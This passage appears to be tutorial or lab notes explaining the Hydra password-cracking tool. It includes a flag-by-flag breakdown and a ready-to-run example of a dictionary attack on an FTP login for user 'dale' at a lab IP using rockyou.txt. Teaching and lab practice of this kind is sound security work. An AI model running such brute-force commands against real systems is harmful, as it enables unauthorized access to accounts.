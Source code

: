 **Hydra** is a powerful password-cracking tool that supports **over 50 protocols**, including FTP. It can perform rapid **dictionary attacks** on various services.

**Command Syntax for Hydra:**

```bash
hydra -t 4 -l [username] -P [path to wordlist] -vV [target IP] ftp
```

###### **Breaking Down the Command**:

|**Section**|**Function**|
|---|---|
|`hydra`|Executes the Hydra tool|
|`-t 4`|Specifies **4 parallel connections** for faster cracking|
|`-l [user]`|Specifies the **username** for the account being targeted (e.g., "dale")|
|`-P [path to wordlist]`|Specifies the path to a **wordlist** of potential passwords (e.g., "rockyou.txt")|
|`-vV`|Enables **verbose mode**, showing login attempts and results|
|`[target IP]`|The **IP address** of the target machine|
|`ftp`|Specifies the **FTP protocol** for Hydra to attack|

---

###### **Example Command**:

```bash
hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp
```

This command will attempt to crack the FTP password for the user **dale** on the server at **10.10.10.6**, using the **rockyou.txt** wordlist.

---
